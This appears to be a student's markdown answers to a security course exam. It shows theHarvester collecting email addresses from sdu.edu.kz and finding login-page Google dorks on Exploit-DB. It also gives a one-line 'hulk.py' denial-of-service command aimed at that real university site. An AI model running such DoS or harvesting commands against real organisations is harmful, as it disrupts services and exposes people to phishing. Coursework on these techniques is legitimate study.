 # A part questions(7 points)
 ## Find email addresses which belong to some organization
 ### Solution 1
 ```
 kali@kali:~$ theHarvester -d [domain name] -b [sources] -l [number of results]
 ```
 - Example
 ```
 kali@kali:~$ theHarvester -d sdu.edu.kz -b all -l 200
 ```
 ### Solution 2
 Go to [hunter.io](https://hunter.io) and search
 
 
## Show how to find google dork for "pages containing login"
1. Go to [Exploit database](https://exploit-db.com/google-hacking-database?)
2. Press Filters button (it's orange)
3. Select `Pages Containing Login Portals` in `Category` drop down menu
4. Run any exploit (no matter if it works) 
 
 
## Perform DOS attack on sdu.edu.kz
```
kali@kali:~$ python hulk.py https://sdu.edu.kz
```
## Wireshark: show any packet and analyze it
